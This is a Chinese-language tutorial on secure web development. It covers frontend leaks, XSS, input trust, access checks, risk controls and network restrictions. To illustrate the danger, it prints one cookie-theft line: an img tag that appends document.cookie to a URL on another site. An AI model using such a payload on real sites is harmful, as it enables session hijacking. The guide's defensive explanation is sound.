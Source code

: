 # WEB 应用安全开发

黑客大部分利用的是软件的漏洞，所以我们要尽可能在开发的时候切断所有可能被利用的地方。要想开发出安全的系统，我们需要熟悉黑客进攻的模式和防守的策略。

# 简介

重视安全最好的策略是将风险最大化，开发的时候要换位思考，如果我是黑客我是不是有办法绕过当前的限制。在进行具体场景讲解前，先来了解一些关键词。

## 关键名词

- **同域：** 相同域名，端口相同，协议相同，缺一不可。
- **跨域：** 浏览器从一个域名的网页去请求另一个域名的资源时，域名、端口、协议至少有一个不相同，就是跨域。
- **ECMAScript：** 简称（ES）JavaScript 所遵循的语法标准。
- **W3C：** 即 万维网联盟 ，最重要的工作是发展 Web 规范，这些规范描述了 Web 的通信协议（比如 HTML 和 XHTML）和其他的构建模块。

## 安全领域的参与者

把握安全领域就要把握 Web 流程中的参与者，除了攻击者外其它角色均需要提供安全的解决方案。从大的方向有下面几大角色，没有谁是绝对安全的。

![image-20201202163205266](WEB_SAFE_02安全开发/image-20201202163205266.png)

#  前端安全开发

前端的安全主要围绕 W3C 进行，同时浏览器的漏洞和 Http 协议本身的缺陷也会造成影响。

##  明文防范

W3C 三个核心对象：HTML，JavaScript，CSS 分别负责了网站的内容结构，动作交互逻辑，展示样式。这么核心的东西在客户都是很容易查看的。虽然 JavaScript 可以混淆加密，但是最终他是需要被浏览器解析的，所以肯定是有一套固定的规范，黑客同样可以轻易解密。

明文也就算了，用户居然可以任意更改上面 W3C 的核心对象，并产生不同的效果，真的是危机四伏。

- 不要异想天开的在前端与后台约定某个加密算法，这样算法一下子就泄露了；
- 对于前端的输入都要保持怀疑，重要的数据如果后端允许，需要自行生成或者加以校验；
- 虽然客户端的一览无遗，但是还是要尽量使用 Https 协议，保证传输的过程是加密的；
- 需要权限的操作，即使前端按钮隐藏了，后端的接口也需要重新鉴权下，很可能客户端自己修改 CSS 使按钮显示出来了；

## URL 导致的泄露问题

前端任何地方带有 URL 的都要引起警惕，主要可能带来下面安全问题：

1. 构建系统的某些接口等用户登录后触发；
2. 调用别的网站，将该作用域下的 Cookie 传输出去。

常见隐藏点：

图片

```html
<img src='http:xxx'>
```

css 样式

```css
background:url(bgimage.gif)
```

表单 action 地址，或者注入隐藏的 input 参数

```html
<form action=''>
<input type="hidden" name="field＿name" value="value"> 
```

## window 下的全局变量

Window 下面带了很多可以直接使用的全局变量，要警惕危险。

![image-20201202163606377](WEB_SAFE_02安全开发/image-20201202163606377.png)

危险点：利用 window.document 获取本域 cookie 然后传输到黑客的网站

```html
<img src='别的网站URL?param='+document.cookie >
```

容易受跨站脚本攻击利用

```js
window.location.href = 【该值最好不要是动态的，容易被注入】
```

# 后端安全开发

## 规范问题

1. 权威机构平台漏洞订阅，并及时做出修改。
2. 开发规范的遵守
   - 学习相关开发规范手册。
   - IDEA 安装实时的代码扫描插件，有问题的地方及时更正。
3. 代码 review 实践。
4. 重要参数不要轻易在日志中输出。
5. 代码泄露
   - 代码不要上传网上。
   - 数据库，签名算法，密钥值 要重要保管，线上不相关的人不要泄露。
6. 重要账号不要为了一时方便提供给开发，测试 等不相干人员，如果有也要及时修改密码。

## 设计问题

1. 类似活动的抽奖，优惠卷领取逻辑不够严谨，可能被人褥羊毛；
2. 登录没有限制次数，容易被暴力破解；
3. 短信验证没有设置重发时间，容易被利用做短信轰炸。

##  信任问题

1. 同域：检查请求头的 **ref** 参数，要么是同域的，要么是信任的才响应。
2. 请求参数
   - 不要太信任前端参数，重要值后台能获取的尽量自己获取。
   - 请求的所有参数都做下 XSS/ SQL 注入 的关键字符的过滤。
3. 权限：涉及到权限的后端都要自己校验，不要说前端按钮隐藏了就可以了

## 增加风控逻辑

1. 用户的账号异地登陆，可以做出些限制或提醒。
2. 某个用户购买的某个商品或者领取的优惠卷异常多，做出限制。
3. 通过 AI 智能模型，对用户行为，流量数据进行检测，模型异常就做出限制。

## 网络策略限制

1. 数据库，Redis，ES，等需要设置访问的 IP 白名单。
2. 对服务器进流量和出流量端口做限制。
3. 架构上面尽量隐藏内部服务等地址。
4. 数据库和应用最好分开，以免被一锅端。

# 小结

安全问题需要经验累积，软件开发作为一个团队协作的工作，大家经验水平不同，所以尽量在团队中分享安全开发的相关知识，技术 Leader 定期 Review 组员代码。